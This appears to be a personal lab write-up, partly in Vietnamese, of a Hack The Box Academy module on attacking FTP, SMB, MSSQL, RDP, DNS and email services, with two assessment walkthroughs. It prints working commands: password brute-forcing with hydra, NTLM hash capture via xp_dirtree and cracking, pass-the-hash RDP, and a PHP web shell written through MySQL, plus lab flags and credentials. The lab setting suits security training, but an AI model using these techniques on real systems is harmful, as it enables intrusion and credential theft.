# Attacking FTP

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.245.1 (ACADEMY-ATTCOMSVC-LIN)   

Life Left: 117 minute(s)  Terminate 

+ 1  What port is the FTP service running on?

Quét 10.129.245.1 không ra ftp nên thử host khác

```zsh
❯ nmap -sn 10.129.245.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-02 01:32 EDT
Nmap scan report for 10.129.245.1
Host is up (0.29s latency).
Nmap scan report for 10.129.245.118
Host is up (0.36s latency).
Nmap scan report for 10.129.245.130
Host is up (0.35s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 64.69 seconds
```

```zsh
❯ sudo nmap -sS -p- 10.129.245.130  -T 4 --min-rate 3000 -v -Pn
Nmap scan report for 10.129.245.130
Host is up (0.30s latency).
Not shown: 65493 closed tcp ports (reset)
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
110/tcp   open     pop3
111/tcp   open     rpcbind
143/tcp   open     imap
993/tcp   open     imaps
995/tcp   open     pop3s
2570/tcp  filtered hs-port
7487/tcp  filtered unknown
7525/tcp  filtered unknown
8080/tcp  open     http-proxy
10807/tcp filtered unknown
15733/tcp filtered unknown
17412/tcp filtered unknown
19030/tcp filtered unknown
20648/tcp filtered unknown
21742/tcp filtered unknown
22748/tcp filtered unknown
22843/tcp filtered unknown
23273/tcp filtered unknown
25427/tcp filtered unknown
27525/tcp filtered unknown
27814/tcp filtered unknown
29206/tcp filtered unknown
29209/tcp filtered unknown
29468/tcp filtered unknown
29570/tcp filtered unknown
31948/tcp filtered iceedcp_tx
33458/tcp filtered unknown
37049/tcp filtered unknown
38603/tcp filtered unknown
42207/tcp filtered unknown
46969/tcp filtered unknown
57773/tcp filtered unknown
58260/tcp filtered unknown
60248/tcp filtered unknown
61980/tcp filtered unknown
65015/tcp filtered unknown
65039/tcp filtered unknown

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 42.81 seconds
           Raw packets sent: 123267 (5.424MB) | Rcvd: 69648 (2.786MB)
```

+ 1  What username is available for the FTP server?

```zsh
└──╼ [★]$ ftp 10.129.245.130 21
Connected to 10.129.245.130.
220 (vsFTPd 3.0.3)
Name (10.129.245.130:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||43937|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 May 30  2022 flag.txt
```


+ 1  Use the discovered username with its password to login via SSH and obtain the flag.txt file. Submit the contents as your answer.

```zsh
❯ cat flag.txt
HTB{0eb0ab788df18c3115ac43b1c06ae6c4}
```

# Attacking SMB

Target(s): 10.129.245.1 (ACADEMY-ATTCOMSVC-LIN)   

Life Left: 146 Terminate 

+ 1  What is the name of the shared folder with READ permissions?

```zsh
❯ smbmap -H 10.129.245.1
[+] IP: 10.129.245.1:445        Name: 10.129.245.1              Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        GGJ                                                     READ ONLY       Priv
        IPC$                                                    NO ACCESS       IPC Service (attcsvc-linux Samba)
```

+ 1  What is the password for the username "jason"?

```zsh
❯ crackmapexec smb 10.129.245.1 -u jason -p pws.list --local-auth
SMB         10.129.245.1    445    ATTCSVC-LINUX    [+] ATTCSVC-LINUX\jason:34c8zuNBo91!@28Bszh
```

+ 1  Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.
Không thể dùng mật khẩu:


Lấy key ssh


```zsh
❯ chmod 600 id_rsa
❯ ssh -i id_rsa jason@10.129.245.1
$ cat flag.txt  
HTB{SMB_4TT4CKS_2349872359}
```

# Attacking SQL Databases

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.230.155 (ACADEMY-ATTCOMSVC-WIN-02)   


 Authenticate to 10.129.230.155 (ACADEMY-ATTCOMSVC-WIN-02) with user "htbdbuser" and password "MSSQLAccess01!"

```zsh
❯ sqsh -S 10.129.230.155 -U htbdbuser -P 'MSSQLAccess01!' -h
```


Chúng ta không có quyền truy cập 2 database ở cuối.

+ 1  What is the password for the "mssqlsvc" user?

Bruteforce but no luck:


Thử capture hash

```zsh
❯ sudo impacket-smbserver share -smb2support ./share
```

```mssql
1> EXEC master..xp_dirtree '\\10.10.14.63\share\'
2> go
```

```zsh
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.230.155,49679)
[*] AUTHENTICATE_MESSAGE (WIN-02\mssqlsvc,WIN-02)
[*] User WIN-02\mssqlsvc authenticated successfully
[*] mssqlsvc::WIN-02:aaaaaaaaaaaaaaaa:2bb0838adbbcea7743b5e828cad05cf5:0101000000000000009aec3e51bbdb0107fd3b1d2fe8e80d00000000010010006e007700450062004200630061004b00030010006e007700450062004200630061004b00020010004f004b004c007500700058006e007300040010004f004b004c007500700058006e00730007000800009aec3e51bbdb0106000400020000000800300030000000000000000000000000300000ea4a8749c911d3ee21e7b12fc2136fdab3d749ef349608f271169c6999a125280a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00360033000000000000000000
[*] Closing down connection (10.129.230.155,49679)
[*] Remaining connections []
```


```zsh
❯ hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt --show
MSSQLSVC::WIN-02:aaaaaaaaaaaaaaaa:2bb0838adbbcea7743b5e828cad05cf5:0101000000000000009aec3e51bbdb0107fd3b1d2fe8e80d00000000010010006e007700450062004200630061004b00030010006e007700450062004200630061004b00020010004f004b004c007500700058006e007300040010004f004b004c007500700058006e00730007000800009aec3e51bbdb0106000400020000000800300030000000000000000000000000300000ea4a8749c911d3ee21e7b12fc2136fdab3d749ef349608f271169c6999a125280a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00360033000000000000000000:princess1
```


+ 1  Enumerate the "flagDB" database and submit a flag as your answer.

```zsh
❯ sqsh -S 10.129.230.155 -U .\\mssqlsvc -P 'princess1' -h
```

```mssql
1> use flagDB
2> go
1> select * from tb_flag
2> go

        HTB{!_l0v3_#4$#!n9_4nd_r3$p0nd3r}    
```
# Attacking RDP


#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.203.13 (ACADEMY-ATTCOMSVC-WIN-01)   

Life Left: 110 Terminate 


 RDP to 10.129.203.13 (ACADEMY-ATTCOMSVC-WIN-01) with user "htb-rdp" and password "HTBRocks!"

+ 1  What is the name of the file that was left on the Desktop? (Format example: filename.txt)

```zsh
❯ xfreerdp3 /v:10.129.203.13  /u:htb-rdp /p:HTBRocks! /dynamic-resolution
```

+ 1  Which registry key needs to be changed to allow Pass-the-Hash with the RDP protocol?

```powershell
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

+ 1  Connect via RDP with the Administrator account and submit the flag.txt as you answer.


```zsh
❯ xfreerdp3 /v:10.129.203.13  /u:Administrator /pth:0E14B9D6330BF16C30B1924111104824 /dynamic-resolution
```


# Attacking DNS
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.203.6 (ACADEMY-ATTCOMSVC-LIN)   

Life Left: 118 minute(s)  Terminate 

+ 1  Find all available DNS records for the "inlanefreight.htb" domain on the target name server and submit the flag found as a DNS record as the answer.

Thêm vào file /etc/hosts:
```zsh
❯ tail -n 1 /etc/hosts
10.129.203.6    inlanefreight.htb
```

Thêm vào resolver.txt:

```zsh
❯ pwd
/home/kali/Desktop/learning/attacking_common_services/subbrute
❯ cat resolvers.txt
10.129.203.6
```

Chạy subbrute:

```zsh
❯ python3 subbrute.py inlanefreight.htb -s names.txt -r resolvers.txt
```


```zsh
❯ dig axfr hr.inlanefreight.htb @10.129.203.6 +short
inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
"HTB{LUIHNFAS2871SJK1259991}"
ns.inlanefreight.htb.
127.0.0.1
inlanefreight.htb. root.inlanefreight.htb. 2 604800 86400 2419200 604800
```

# Attacking Email Services

+ 1  What is the available username for the domain inlanefreight.htb in the SMTP server?

```zsh
❯ sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.96.172
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-08 06:01 EDT
Nmap scan report for inlanefreight.htb (10.129.96.172)
Host is up.

PORT    STATE    SERVICE    VERSION
25/tcp  filtered smtp
110/tcp filtered pop3
143/tcp filtered imap
465/tcp filtered smtps
587/tcp filtered submission
993/tcp filtered imaps
995/tcp filtered pop3s
```

```
❯ smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.96.172
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... users.list
Target count ............. 1
Username count ........... 79
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

######## Scan started at Thu May  8 06:44:49 2025 #########
10.129.96.172: marlin@inlanefreight.htb exists
######## Scan completed at Thu May  8 06:45:25 2025 #########
1 results.

79 queries in 36 seconds (2.2 queries / sec)

```


+ 1  Access the email account using the user credentials that you discovered and submit the flag in the email as your answer.
```zsh
❯ hydra -l marlin@inlanefreight.htb -P pws.list -f 10.129.203.12 pop3 -I -v
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-09 02:57:46
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 333 login tries (l:1/p:333), ~21 tries per task
[DATA] attacking pop3://10.129.203.12:110/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] CAPABILITY: +OK CAPA list follows
USER
UIDL
TOP
.
[VERBOSE] using POP3 CLEAR LOGIN mechanism
[110][pop3] host: 10.129.203.12   login: marlin@inlanefreight.htb   password: poohbear
[STATUS] attack finished for 10.129.203.12 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-09 02:58:04
```



# Attacking Common Services - Easy
We were commissioned by the company Inlanefreight to conduct a penetration test against three different hosts to check the servers' configuration and security. We were informed that a flag had been placed somewhere on each server to prove successful access. These flags have the following format:

- `HTB{...}`

Our task is to review the security of each of the three servers and present it to the customer. According to our information, the first server is a server that manages emails, customers, and their files.

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

+ 2  You are targeting the inlanefreight.htb domain. Assess the target server and obtain the contents of the flag.txt file. Submit it as the answer

#### Nmap

```zsh
❯ sudo nmap -sS -T 4 --min-rate 3000 -p- 10.129.255.218 -Pn -v
PORT     STATE SERVICE
21/tcp   open  ftp
25/tcp   open  smtp
80/tcp   open  http
443/tcp  open  https
587/tcp  open  submission
3306/tcp open  mysql
3389/tcp open  ms-wbt-server
```

#### Web page




#### Nhận định ban đầu

Có thể liên quan đến mysql, upload shell qua SQLserver và gọi payload trên web hoặc tải lên webshell

#### Enumeration

SMTP enumeration found nothing.



##### FTP bruteforce

Không có gì...



##### DNS Enum

same




Đến đoạn này thấy cấn cấn nên tôi đã reset lại lab rồi smtp lại...

##### Roll back

here we go!!!!!

```zsh
❯ smtp-user-enum -M RCPT -U users.list -D inlanefreight.htb -t 10.129.255.150
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... users.list
Target count ............. 1
Username count ........... 79
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

######## Scan started at Fri May  9 04:03:49 2025 #########
10.129.255.150: fiona@inlanefreight.htb exists
######## Scan completed at Fri May  9 04:04:12 2025 #########
1 results.

79 queries in 23 seconds (3.4 queries / sec)

```

#### Footprinting

###### Brute force fiona's password

found no result with password list hackthebox provide. Try to use `rockyou.txt`
```zsh
❯ hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt smtp://10.129.255.150 -I -s 25
```



login: fiona@inlanefreight.htb   password: 987654321

##### MYSQL access

```zsh
❯ mysql -h 10.129.255.150 -ufiona -p --ssl=false
```

##### GET THE FLAG

```sql
MariaDB [(none)]> select LOAD_FILE("C:/Users/Administrator/Desktop/flag.txt");
+------------------------------------------------------+
| LOAD_FILE("C:/Users/Administrator/Desktop/flag.txt") |
+------------------------------------------------------+
| HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}              |
+------------------------------------------------------+
1 row in set (0.256 sec)

```

Nếu không rõ đường dẫn cụ thể, chúng ta có thể upload một web shelll.

```sql
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE 'C:/xampp/htdoc/shell.php';
```

Sau đó gọi payload:

```zsh
❯ curl 'http://10.129.255.150/shell.php?c=type%20C:\Users\Administrator\Desktop\flag.txt'
HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49} 
```

# Attacking Common Services - Medium

The second server is an internal server (within the `inlanefreight.htb` domain) that manages and stores emails and files and serves as a backup of some of the company's processes. From internal conversations, we heard that this is used relatively rarely and, in most cases, has only been used for testing purposes so far.

#### Questions

+ 2  Assess the target server and find the flag.txt file. Submit the contents of this file as your answer.

### nmap
```zsh
❯ sudo nmap -sS -T 4 --min-rate 3000 -p- 10.129.255.113  -Pn -v
PORT      STATE SERVICE
22/tcp    open  ssh
53/tcp    open  domain
110/tcp   open  pop3
995/tcp   open  pop3s
2121/tcp  open  ccproxy-ftp
30021/tcp open  unknown
```

Quét sâu hơn

```zsh
❯ sudo nmap -sCV -T 4 --min-rate 3000 -p- 10.129.255.113 --source-port 53
```

Phát hiện ra rằng có một dịch vụ ftp khác đang chạy trên cổng lớn 30021.




### FTP

We can login anonymous this port  then get the important file from `simon` folder.


### GET password of simon

I tried ssh and pop3 but no luck:
```zsh
❯ hydra -l simon@inlanefreight.htb -P mynotes.txt -f 10.129.255.113 pop3
```

```zsh
❯ hydra -l simon@inlanefreight.htb -P mynotes.txt ssh://10.129.255.113 -I
```



The right destination is here:

```zsh
❯ hydra -l simon -P mynotes.txt -f 10.129.255.113 ftp -s 2121
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-09 04:59:59
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:1/p:8), ~1 try per task
[DATA] attacking ftp://10.129.255.113:2121/
[2121][ftp] host: 10.129.255.113   login: simon   password: 8Ns8j1b!23hs4921smHzwn
[STATUS] attack finished for 10.129.255.113 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-09 05:00:09

```

### FTP port 2121

```zsh
ftp 10.129.255.113 2121
```

We got some files.



#### FLAG
```zsh
❯ cat flag.txt
HTB{1qay2wsx3EDC4rfv_M3D1UM}
```

Wait, why it is too easy?

I tried again :))

